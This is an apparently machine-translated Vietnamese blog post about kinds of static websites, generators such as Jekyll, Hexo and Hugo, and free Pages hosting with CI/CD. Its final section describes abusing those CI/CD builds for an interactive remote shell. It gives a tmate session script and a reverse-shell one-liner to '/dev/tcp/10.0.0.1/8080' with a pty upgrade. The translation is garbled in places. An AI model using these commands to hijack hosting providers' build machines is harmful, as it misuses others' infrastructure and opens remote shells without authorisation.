 Các trang web tĩnh thường được chia thành nhiều loại. Loại thứ nhất được gọi là trang web tĩnh thuần túy, tức là chương trình trang web được viết hoàn toàn là tĩnh. Nếu bạn viết blog, nó có thể ở dạng sử dụng AJAX để gọi Markdown kết xuất tệp bằng JS , thường sử dụng SPA. Dạng cổ điển hơn, chẳng hạn như [MDwiki] (https://github.com/Dynalon/mdwiki), nhưng rất tiếc là không được cập nhật, dạng này phức tạp hơn, nói chung chỉ những ông lớn mới làm sử dụng nó, và loại hiệu ứng SEO này sẽ Tương đối kém. Thứ hai là tạo trang web tĩnh. Sự khác biệt giữa giao diện người dùng này và giao diện người dùng thuần túy là các tệp mà nó viết không thể được xuất bản trực tiếp, nhưng một số trình tạo được sử dụng để gọi các mẫu để tạo ra các trang web có thể được xuất bản. Ưu điểm của việc này là trên cơ sở của cái trước, hiệu quả của SEO được cải thiện, độ khó của việc phát triển trang web được giảm bớt và việc tiêu thụ hiệu suất của khách hàng cũng giảm xuống. Blog hiện tại của tôi đang sử dụng lược đồ này. Trình tạo được sử dụng có tên là [Jekyll] (https://github.com/jekyll/jekyll). Ngoài Jekyll, còn có những ứng dụng như [Hexo] (https://github.com / hexojs / hexo), [Hugo] (https://github.com/gohugoio/hugo), v.v. Loại thứ ba tương đối nâng cao, đó là, loại phân tách front-end và back-end, ủy quyền một số nhiệm vụ mà front-end không thể hoàn thành cho back-end. Phần phụ trợ ở đây có thể được viết bằng bất kỳ ngôn ngữ nào, chẳng hạn như [blog counter] (/ 2019/06/22 / counter.html) mà tôi đã viết trước đây và không có giới hạn về cách nó chạy, chẳng hạn như Serverless.
Bởi vì giao diện người dùng gần đây rất phổ biến, các dịch vụ Trang khác nhau đã xuất hiện gần đây Vì các trang giao diện người dùng thuần túy hầu như không tiêu tốn tài nguyên máy chủ, nhiều công ty sẵn sàng cung cấp dịch vụ này miễn phí. Và hiện nay CI / CD cũng rất phổ biến, kéo theo đó là nhiều dịch vụ của Pages gắn kết tất cả những thứ này lại với nhau tạo thành một hệ thống rất hoàn chỉnh. Ví dụ: các Trang Gitlab và Trang Gitee khác nhau bắt chước các Trang Github, cũng như các Trang Vercel, Cloudflare, v.v., có thể nói đang nở rộ. Tất nhiên, nếu bạn không muốn sử dụng các dịch vụ này, không có vấn đề gì khi sử dụng máy chủ của riêng bạn để lưu trữ một trang web tĩnh. Khi tôi sử dụng Trang Github làm blog, tất nhiên, tôi chưa có các dịch vụ này, tôi không có ý định thay đổi nó ngay bây giờ.
Hiện tại, ngoài Github Pages chỉ hỗ trợ Jekyll và không hỗ trợ thực thi các trình tạo trang web khác, tất cả các dịch vụ khác đều hỗ trợ CI / CD hoàn chỉnh. Tuy nhiên, Github có các Hành động. Tôi thực sự muốn làm điều đó. Điều đó hơi rắc rối một chút. [Pixiv index] (/ pixiv-index /) mà tôi đã thực hiện trước đây dựa trên dịch vụ Hành động + Trang của Github. Nhưng tôi không có Hành động khi viết blog vào thời điểm đó. Khi tôi làm [Mayx 的 日报] (/ MayxDaily /), tôi đã sử dụng dịch vụ Travis-CI của bên thứ ba.
Tuy nhiên, vì có CI / CD nên có nguy cơ bị lạm dụng. Tôi đã cố gắng sử dụng [tmate] (https://github.com/tmate-io/tmate) để kết nối với CI / CD của các dịch vụ của Trang đó . Nếu bạn là người cụ thể, tất cả mọi người Bạn có thể sử dụng tập lệnh sau để kết nối:
```shell
#!/bin/bash
# Generate ssh key if needed
mkdir ~/.ssh
[ -e ~/.ssh/id_rsa ] || ssh-keygen -t rsa -f ~/.ssh/id_rsa -q -N ""

# Run deamonized tmate
echo Running tmate...
chmod 777 ./tmate
./tmate -S /tmp/tmate.sock new-session -d
./tmate -S /tmp/tmate.sock wait tmate-ready

# Print connection info
echo ________________________________________________________________________________
echo
echo To connect to this session copy-n-paste the following into a terminal:
./tmate -S /tmp/tmate.sock display -p '#{tmate_ssh}'

while [ -S /tmp/tmate.sock ]
do
sleep 1
done
```
Phương pháp này không phải để sử dụng một máy chủ trong tầm tay, nhưng tôi phải nói rằng tmate khá dễ sử dụng. Nếu có máy chủ, bạn nên sử dụng `bash -i> & /dev/tcp/10.0.0.1/8080 0> & 1` để phục hồi bằng một khóa, sau đó sử dụng thư viện pty python để nâng cấp lên trình bao bình thường .